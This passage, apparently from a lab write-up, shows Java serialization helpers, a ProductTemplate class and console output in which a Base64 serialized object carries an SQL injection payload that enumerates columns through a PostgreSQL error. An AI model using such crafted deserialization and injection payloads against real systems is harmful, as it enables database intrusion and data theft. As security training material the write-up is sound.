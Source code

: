 ```java

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

*./data/productcatalog/ProductTemplate.java*
```java
package data.productcatalog;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;
    private final String id;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId()
    {
        return id;
    }
}
```

Generate the object and enumerated the number of columns, confirming the SQL Injection
```bash
$ javac Main.java && java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAGTEnIE9SREVSIEJZIDkgTElNSVQgMS0tIC0=
Deserialized data id: 1\' ORDER BY 9 LIMIT 1-- -

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: ORDER BY position 9 is not in select list
Position: 48</p>

$ javac Main.java && java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```